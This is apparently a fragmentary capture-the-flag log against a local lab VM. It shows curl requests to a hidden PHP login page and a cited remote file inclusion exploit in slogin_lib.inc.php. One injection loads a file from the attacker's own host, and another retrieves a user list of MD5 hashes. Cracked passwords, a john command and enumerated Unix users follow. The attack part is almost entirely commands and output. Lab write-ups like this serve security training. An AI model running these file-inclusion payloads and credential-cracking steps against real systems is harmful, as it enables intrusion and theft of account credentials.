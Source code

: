 

└─$ curl http://192.168.56.107:8080/developmentsecretpage/directortestpagev1.php?logout=1
<html>
<head>
<title>Director's Update Panel Version 1.0</title>
</head>
<body>
<form method="post" action="/developmentsecretpage/directortestpagev1.php">
Username: <input type="text" name="slogin_POST_username" value=""><br>
Password: <input type="password" name="slogin_POST_password"><br>
<input type="submit" name="slogin_POST_send" value="Enter">
</form>
This is the property of Good Tech. All rights reserved.
</body>
</html> 



Deprecated: Function ereg_replace() is deprecated in /var/www/html/developmentsecretpage/slogin_lib.inc.php on line 335
Deprecated: Function ereg_replace() is deprecated in /var/www/html/developmentsecretpage/slogin_lib.inc.php on line 336

https://www.exploit-db.com/exploits/7444
http://www.example.com/[path]/slogin_lib.inc.php?slogin_path=[remote_txt_shell] 


Deprecated: Function ereg_replace() is deprecated in /var/www/html/developmentsecretpage/slogin_lib.inc.php on line 335

└─$ curl http://192.168.56.107:8080/developmentsecretpage/slogin_lib.inc.php?slogin_path=http://192.168.56.1:8000/info.php
└─$ curl http://192.168.56.107:8080/developmentsecretpage/slogin_lib.inc.php?slogin_path=slog_users.txt 



└─$ curl http://192.168.56.107:8080/developmentsecretpage/slog_users.txt 
admin, 3cb1d13bb83ffff2defe8d1443d3a0eb
intern, 4a8a2b374f463b7aedbb44a066363b81
patrick, 87e6d56ce79af90dbe07d387d3d0579e
qiu, ee64497098d0926d198f54f6d5431f98


https://md5decrypt.net/#answer
https://md5.gromweb.com/?md5=4a8a2b374f463b7aedbb44a066363b81
admin	:	3cb1d13bb83ffff2defe8d1443d3a0eb	[ Unfound ]
intern	:	4a8a2b374f463b7aedbb44a066363b81	12345678900987654321
patrick	:	87e6d56ce79af90dbe07d387d3d0579e	P@ssw0rd25
qiu	:	ee64497098d0926d198f54f6d5431f98	qiu 


john --format=raw-md5 hash.txt

S-1-22-1-1000 Unix User\admin (Local User)
S-1-22-1-1001 Unix User\patrick (Local User)
S-1-22-1-1002 Unix User\intern (Local User)
S-1-22-1-1003 Unix User\ossec (Local User)
S-1-22-1-1004 Unix User\ossecm (Local User)
S-1-22-1-1005 Unix User\ossecr (Local User)
